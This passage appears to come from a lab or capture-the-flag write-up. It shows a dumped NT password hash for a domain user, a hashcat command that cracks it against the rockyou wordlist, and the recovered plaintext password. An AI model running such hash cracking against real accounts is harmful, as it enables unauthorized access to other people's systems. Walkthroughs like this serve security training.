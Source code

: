 ```
Bad password count:   0
Dial-In access perm:  Controlled by policy
User Account Control:
        NORMAL_ACCOUNT
Ancestors:
        $ROOT_OBJECT$, local, mrb3n, Users, atanas
Password hashes:
        atanas:2b576acbe6bcfda7294d6bd18041b8fe
```

Reviewing ntout I confirmed that the hashes were there and proceeded to feed that into hashcat.

![image](assets/82266984-2cade180-9939-11ea-8b65-42684eb8efc5.png)

```
hashcat -m 1000 output/ntout.txt --username /usr/share/wordlists/rockyou.txt --force
```
Hashcat was able to crack 1 out of 3 passwords, the password it found was f16tomcat!

![image](assets/82267130-844c4d00-9939-11ea-8910-0cb00e6e54d3.png)
